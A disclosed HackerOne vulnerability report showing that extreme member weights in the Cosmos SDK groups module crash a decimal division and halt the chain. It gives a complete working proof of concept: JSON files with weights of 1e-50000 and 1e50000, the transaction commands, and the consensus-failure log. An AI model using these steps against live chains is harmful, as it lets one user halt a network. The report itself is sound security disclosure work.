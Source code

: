 # Groups module can halt chain when handling a proposal with malicious group weights 

## Report Details
- **Report ID**: 3018307
- **URL**: https://hackerone.com/reports/3018307
- **State**: Closed
- **Severity**: high
- **Submitted**: 2025-02-28T12:59:54.445Z
- **Disclosed**: 2025-04-23T23:00:29.126Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cosmos

## Vulnerability Information
### Summary of Impact

After having a look into the patch for https://github.com/cosmos/cosmos-sdk/security/advisories/GHSA-x5vx-95h7-rv4p I discovered a very similar bug.

The original error was due to a divide by zero at https://github.com/cosmos/cosmos-sdk/blob/v0.50.12/x/group/types.go#L215 when the total power was zero.

```go
yesPercentage, err := yesCount.Quo(totalPowerDec)
```

The patch prevented groups from having zero power and also added a guard to the division:
```go
if totalPowerDec.IsZero() {
        return DecisionPolicyResult{Allow: false, Final: true}, nil
}
yesPercentage, err := yesCount.Quo(totalPowerDec)
```

The issue is that there are other ways that `Quo` can fail, such as if the exponent of the resulting value is out of range:
https://github.com/cockroachdb/apd/blob/master/decimal.go#L293-L309
```golang
// setExponent sets d's Exponent to the sum of xs. Each value and the sum
// of xs must fit within an int32. An error occurs if the sum is outside of
// the MaxExponent or MinExponent range. res is any Condition previously set
// for this operation, which can cause Underflow to be set if, for example,
// Inexact is already set.
func (d *Decimal) setExponent(c *Context, res Condition, xs ...int64) Condition {
    var sum int64
    for _, x := range xs {
        if x > MaxExponent {
            return SystemOverflow | Overflow
        }
        if x < MinExponent {
            return SystemUnderflow | Underflow
        }
        sum += x
    }
    r := int32(sum)
```

Since there are no limits on group member weight, it's possible to trigger this failure by having two members with weights of `"1e-50000"` and `"1e50000"`. If the user with the tiny weight votes yes, `yesCount.Quo(totalPowerDec)` will return an error `decimal quotient error: exponent out of range` and cause a chain halt when `doTallyAndUpdate` is called from the EndBlocker.

### Steps to Reproduce
Create a new chain with ignite:
```bash
ignite scaffold chain example
cd example
ignite chain serve

#  Cosmos SDK's version is: v0.50.12
```

Create the following two json files using the addressed created by ignite server:

members.json
```json
{
    "members": [
        {
            "address": "cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0",
            "weight": "1e-50000"
        },
        {
            "address": "cosmos18v59wacnwz89qphdez62m6nn7qse8mgfr7m0lk",
            "weight": "1e50000"
        }
    ]
}
```

policy.json
```json
{
    "@type": "/cosmos.group.v1.PercentageDecisionPolicy",
    "percentage": "0.5",
    "windows": {
        "voting_period": "10s",
        "min_execution_period": "20s"
    }
}
```

Create the group and transfer some funds to the policy address for testing:

```bash
exampled tx group create-group-with-policy cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 "" "" members.json policy.json --gas auto --yes
exampled q group group-policies-by-admin cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0
exampled tx bank send cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 cosmos17pmq7hp4upvmmveqexzuhzu64v36re3w3447n7dt46uwp594wtpsqv4fn5 100stake --gas auto --yes
```

Create a new proposal file:

proposal.json
```
{
    "group_policy_address": "cosmos17pmq7hp4upvmmveqexzuhzu64v36re3w3447n7dt46uwp594wtpsqv4fn5",
    "messages": [
        {
            "@type": "/cosmos.bank.v1beta1.MsgSend",
            "from_address": "cosmos17pmq7hp4upvmmveqexzuhzu64v36re3w3447n7dt46uwp594wtpsqv4fn5",
            "to_address": "cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0",
            "amount": [
                {
                    "denom": "stake",
                    "amount": "10"
                }
            ]
        }
    ],
    "metadata": "",
    "title": "crash",
    "summary": "crash",
    "proposers": [
        "cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0"
    ]
}
```

Submit and vote for the proposal
```
exampled tx group submit-proposal proposal.json --gas auto --yes
exampled tx group vote 1 cosmos14xzyhnr8w098awcf8l6t57qw3qlhcwsntytvm0 VOTE_OPTION_YES "" --gas auto --yes
```

Chain halts:
```
[EXAMPLED] 11:20PM ERR error in proxyAppConn.FinalizeBlock err="doTallyAndUpdate: policy allow: decimal quotient error: exponent out of range" module=state
[EXAMPLED] 11:20PM ERR CONSENSUS FAILURE!!! err="failed to apply block; error doTallyAndUpdate: policy allow: decimal quotient error: exponent out of range [cockroachdb/apd/v2@v2.0.2/condition.go:107]" module=consensus stack="goroutine 80 [running]:\nruntime/debug.Stack()\n\t/opt/homebrew/Cellar/go/1.23.2/libexec/src/runtime/debug/stack.go:26 +0x64\ngithub.com/cometbft/cometbft/consensus.(*State).receiveRoutine.func2()\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:801 +0x4c\npanic({0x109639ae0?, 0x14001246280?})\n\t/opt/homebrew/Cellar/go/1.23.2/libexec/src/runtime/panic.go:785 +0xf0\ngithub.com/cometbft/cometbft/consensus.(*State).finalizeCommit(0x14001751c08, 0x5c6)\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:1781 +0x1030\ngithub.com/cometbft/cometbft/consensus.(*State).tryFinalizeCommit(0x14001751c08, 0x5c6)\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:1682 +0x2c0\ngithub.com/cometbft/cometbft/consensus.(*State).enterCommit.func1()\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:1617 +0xb8\ngithub.com/cometbft/cometbft/consensus.(*State).enterCommit(0x14001751c08, 0x5c6, 0x0)\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:1655 +0xd90\ngithub.com/cometbft/cometbft/consensus.(*State).addVote(0x14001751c08, 0x14002549040, {0x0, 0x0})\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:2343 +0x2a58\ngithub.com/cometbft/cometbft/consensus.(*State).tryAddVote(0x14001751c08, 0x14002549040, {0x0, 0x0})\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:2067 +0x50\ngithub.com/cometbft/cometbft/consensus.(*State).handleMsg(0x14001751c08, {{0x109ca2080, 0x140017185d0}, {0x0, 0x0}})\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:929 +0x5c0\ngithub.com/cometbft/cometbft/consensus.(*State).receiveRoutine(0x14001751c08, 0x0)\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:856 +0x5fc\ncreated by github.com/cometbft/cometbft/consensus.(*State).OnStart in goroutine 1\n\t/Users/will/go/pkg/mod/github.com/cometbft/cometbft@v0.38.17/consensus/state.go:398 +0x1e4\n"
[EXAMPLED] 11:20PM INF service stop impl=baseWAL module=consensus msg="Stopping baseWAL service" wal=/Users/will/.example/data/cs.wal/wal
[EXAMPLED] 11:20PM INF service stop impl=Group module=consensus msg="Stopping Group service" wal=/Users/will/.example/data/cs.wal/wal
[EXAMPLED] 11:20PM INF Timed out dur=1000 height=1478 module=consensus round=0 step=RoundStepPropose
```

### Workarounds
I think a patch/update will need to be applied to fix the issue.

### Supporting Material/References
Criticality: High (Considerable Impact; Likely Likelihood per [ACMv1.2](https://github.com/interchainio/security/blob/main/resources/CLASSIFICATION_MATRIX.md))
Affected users: Validators, Full nodes, Users on chains that utilize the groups module

## Impact

A malicious user that can interact with the groups module can cause the entire chain to halt. Any chain that utilizes the groups module is affected.

## Attachments
No attachments
